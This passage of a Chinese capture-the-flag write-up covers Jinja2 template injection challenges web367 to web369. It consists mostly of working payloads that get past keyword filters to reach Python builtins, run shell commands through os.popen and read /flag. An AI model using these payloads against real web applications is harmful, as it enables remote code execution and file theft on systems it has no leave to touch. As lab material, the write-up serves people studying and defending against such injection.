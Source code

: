 ```
Cookie:a=__init__;b=__globals__;c=__getitem__;d=__builtins__;e=__import__('os').popen('cat /flag').read() 
```

![在这里插入图片描述](img/936f06a49b3c11844f5ec3f11d752b16.png)

## web367

姿势同web66

## web368

测试发现`{{`被过滤,使用`{%%}`绕过,再借助`print()`回显

payload:

```
?name={% print((abc|attr(request.cookies.a)|attr(request.cookies.b)|attr(request.cookies.c))(request.cookies.d).eval(request.cookies.e))%}

Cookie:a=__init__;b=__globals__;c=__getitem__;d=__builtins__;e=__import__('os').popen('cat /flag').read() 
```

## web369(过滤request)

request被禁用，前面的姿势肯定是用不了了。

这里直接用羽师傅的payload:

```
?name=
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(24)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}
{%print(x.open(file).read())%} 
```
